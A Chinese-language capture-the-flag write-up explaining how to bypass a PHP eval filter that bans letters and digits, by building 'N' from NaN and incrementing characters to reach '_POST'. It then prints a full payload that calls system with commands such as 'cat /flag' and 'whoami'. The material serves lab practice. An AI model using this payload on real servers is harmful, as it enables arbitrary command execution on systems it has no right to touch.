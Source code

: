 ### 自增绕过

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b16dd4d0e0a243d4ffc11f.jpg)

打开网页拿到源代码，首先是 POST 参数 code 长度不能超过 105

其次是不包含字母、数字、特殊字符，最后通过 eval() 执行

![](https://pic1.imgdb.cn/item/67b16dddd0e0a243d4ffc121.jpg)

遍历正则发现 !$'()+,./;=[]_ 没有过滤

NaN 表示未定义或不可表示的值，可以用 (0/0) 表示

因为过滤了数字，所以这里用 _ 代替，得到 float(NAN)

![](https://pic1.imgdb.cn/item/67b16e2dd0e0a243d4ffc128.jpg)

我们需要字符串类型的 NaN，加上 ._ 拼接转为字符串

![](https://pic1.imgdb.cn/item/67b16ea6d0e0a243d4ffc133.jpg)

再通过数组下标提取出字符 N

![](https://pic1.imgdb.cn/item/67b16ebbd0e0a243d4ffc136.jpg)

拿到字符 N 后通过自增的形式拿到其他字符

![](https://pic1.imgdb.cn/item/67b16eded0e0a243d4ffc13e.jpg)

整体脚本如下

```php
<?php
$_=(_/_._)[_];
//var_dump($_);  //"N"
$_++;       //"O"
//var_dump($_++);
$__=$_.$_++;   //"PO"
$_++;         //"Q"
//var_dump($_++);
$_++;         //"R"
$_++;         //"S"
//var_dump($_++);
$__=$__.$_;  //"POS"
//var_dump($__);
$_++;        //"T"
//var_dump($_++);
$__=$__.$_;  //"POST"
//var_dump($__);
$_=_.$__;    //_POST
//var_dump($_);
$$_[_]($$_[__]);
//&_=system&__=cat /flag

//code=$_=(_/_._)[_];$_++;$__=$_.$_++;$_++;$_++;$_++;$__=$__.$_;$_++;$__=$__.$_;$_=_.$__;$$_[_]($$_[__]);&_=system&__=whoami
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b16f3cd0e0a243d4ffc148.jpg)